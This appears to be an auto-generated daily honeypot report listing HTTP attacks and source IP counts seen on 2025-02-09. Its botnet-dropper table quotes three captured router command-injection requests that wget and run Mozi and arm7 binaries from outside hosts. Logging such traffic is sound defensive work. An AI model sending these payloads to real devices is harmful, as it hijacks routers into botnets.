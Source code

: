 ```yaml
---
title: "Report: 2025-02-09 "
date: 2025-02-09
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-02-09
interaction report on http service of various Hhoneypot around the world.
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## botnet_dropper_behaviour
|    | remote_addr    | request                                                                                                                                                                                   |
|---:|:---------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  0 | 141.255.166.90 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F31.57.102.67%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1 |
|  1 | 112.248.81.66  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://112.248.81.66:46015/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0              |
|  2 | 117.196.166.34 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://117.196.166.34:55948/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0             |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                   171 | 193.41.206.176  |
|   1 |                    73 | 217.160.188.238 |
|   2 |                    67 | 78.153.140.203  |
|   3 |                    54 | 193.68.89.10    |
|   4 |                    34 | 176.65.137.206  |
|   5 |                    33 | 185.196.220.253 |
|   6 |                    28 | 78.153.140.177  |
|   7 |                    25 | 80.82.77.202    |
|   8 |                    24 | 209.38.93.73    |
|   9 |                    19 | 92.255.57.58    |
|  10 |                    16 | 185.93.89.118   |
|  11 |                    16 | 167.99.140.217  |
|  12 |                    16 | 46.19.143.10    |
|  13 |                    16 | 20.42.104.192   |
|  14 |                    16 | 78.153.140.149  |
|  15 |                    15 | 93.174.93.12    |
|  16 |                    15 | 179.43.160.138  |
|  17 |                    13 | 45.148.10.90    |
|  18 |                    12 | 46.19.138.234   |